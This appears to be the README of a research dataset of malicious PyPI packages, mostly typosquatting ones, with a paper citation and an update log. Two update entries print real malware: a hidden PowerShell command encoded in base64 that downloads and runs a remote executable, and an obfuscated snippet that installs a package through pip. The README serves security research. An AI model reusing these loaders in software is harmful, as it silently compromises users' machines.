 ## Dataset Size

This data set includes about 4,592 versions of the source code of 4,082 malicious packages.

## Dataset Format

`package name -> version -> source code zip file.`

Example:
`ython-binance -> 0.1 -> ython-binance-0.1.tar.gz`

## False positive

We have manually checked all collected malicious packages and have now removed all false positives.

## Reference

This dataset is the work of the ASE 2023 paper "An Empirical Study of Malicious Code In PyPI Ecosystem"

```
@misc{guo2023empirical,
      title={An Empirical Study of Malicious Code In PyPI Ecosystem}, 
      author={Wenbo Guo and Zhengzi Xu and Chengwei Liu and Cheng Huang and Yong Fang and Yang Liu},
      year={2023},
      eprint={2309.11021},
      archivePrefix={arXiv},
      primaryClass={cs.SE}
}
```

## Update

### 31 Mar. 2024 
Add new 431 malicious packages using typoSquatting attack method.

ref: [https://mp.weixin.qq.com/s/VIThE0I5BkQBW6hIOubnkQ](https://mp.weixin.qq.com/s/VIThE0I5BkQBW6hIOubnkQ)


### 04 Apr. 2024 
Add new 45 malicious packages using typoSquatting attack method.


### 16 Apr. 2024 
Add new 56 malicious packages using typoSquatting attack method. 

Malicious code in these packages.
```python
try:
  import subprocess
  import os
  if not os.path.exists('tahg'):
    # www.esquelesquad.rip
    subprocess.Popen('powershell -WindowStyle Hidden -EncodedCommand cABvAHcAZQByAHMAaABlAGwAbAAgAEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgAC0AVQByAGkAIAAiAGgAdAB0AHAAcwA6AC8ALwBkAGwALgBkAHIAbwBwAGIAbwB4AC4AYwBvAG0ALwBzAC8AcwB6AGcAbgB5AHQAOQB6AGIAdQBiADAAcQBtAHYALwBFAHMAcQB1AGUAbABlAC4AZQB4AGUAPwBkAGwAPQAwACIAIAAtAE8AdQB0AEYAaQBsAGUAIAAiAH4ALwBXAGkAbgBkAG8AdwBzAEMAYQBjAGgAZQAuAGUAeABlACIAOwAgAEkAbgB2AG8AawBlAC0ARQB4AHAAcgBlAHMAcwBpAG8AbgAgACIAfgAvAFcAaQBuAGQAbwB3AHMAQwBhAGMAaABlAC4AZQB4AGUAIgA=', shell=False, creationflags=subprocess.CREATE_NO_WINDOW)
except: pass
```


### 21 Apr. 2024 
Add new 34 malicious packages using typoSquatting attack method.


### 1 May. 2024 
Add new 1154 malicious packages using typoSquatting attack method.

Malicious code in these packages.
```python
try:
  import subprocess
  import os
  if not os.path.exists('tahg'):
    subprocess.Popen('powershell -WindowStyle Hidden -EncodedCommand cABvAHcAZQByAHMAaABlAGwAbAAgAEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgAC0AVQByAGkAIAAiAGgAdAB0AHAAcwA6AC8ALwBkAGwALgBkAHIAbwBwAGIAbwB4AC4AYwBvAG0ALwBzAC8AcwB6AGcAbgB5AHQAOQB6AGIAdQBiADAAcQBtAHYALwBFAHMAcQB1AGUAbABlAC4AZQB4AGUAPwBkAGwAPQAwACIAIAAtAE8AdQB0AEYAaQBsAGUAIAAiAH4ALwBXAGkAbgBkAG8AdwBzAEMAYQBjAGgAZQAuAGUAeABlACIAOwAgAEkAbgB2AG8AawBlAC0ARQB4AHAAcgBlAHMAcwBpAG8AbgAgACIAfgAvAFcAaQBuAGQAbwB3AHMAQwBhAGMAaABlAC4AZQB4AGUAIgA=', shell=False, creationflags=subprocess.CREATE_NO_WINDOW)
except: pass
```


```python
...
while 馬女水女口目人馬鳥月水馬山山馬鸟:
  if 108363 == 馬女水女口目人馬鳥月水馬山山馬鸟:
    import pip
    pip.main([''.join(map(getattr(__builtins__, oct.__str__()[-3 << 0] + hex.__str__()[-1 << 2] + copyright.__str__()[4 << 0]), [((((3 << 2) + 1)) << 3) + 1, (7 << 4) - (1 << 1), (7 << 4) + 3, (7 << 4) + (1 << 2), (3 << 5) + 1, (((7 << 2) - 1) << 2), (((7 << 2) - 1) << 2)])), ''.join(map(getattr(__builtins__,
              oct.__str__()[-3 << 0] + hex.__str__()[-1 << 2] + copyright.__str__()[4 << 0]), [(7 << 4), (((1 << 4) - 1) << 3) + 1, (7 << 4), ((((3 << 2) + 1)) << 3) + 1, (((1 << 4) - 1) << 3) - 1, ((((3 << 2) + 1)) << 3) + 1, (7 << 4) - (1 << 1), ((((3 << 2) + 1)) << 2) - 1, (((3 << 3) + 1) << 1)]))])

    馬女水女口目人馬鳥月水馬山山馬鸟 = (896*(494 & 86)+104//648-(885 | 515+277) | 885 << 141 << 580 >> (593 | 648) & ~87) >> 9523
  elif 馬女水女口目人馬鳥月水馬山山馬鸟 == 286625773:
...
```


### Other Dataset

- GitHub Advisory Database https://github.com/advisories?query=type%3Amalware (NPM).
- https://dasfreak.github.io/Backstabbers-Knife-Collection/ (PyPI and npm), by Marc Ohm et al.
- https://github.com/datadog/malicious-software-packages-dataset (PyPI), by Datadog

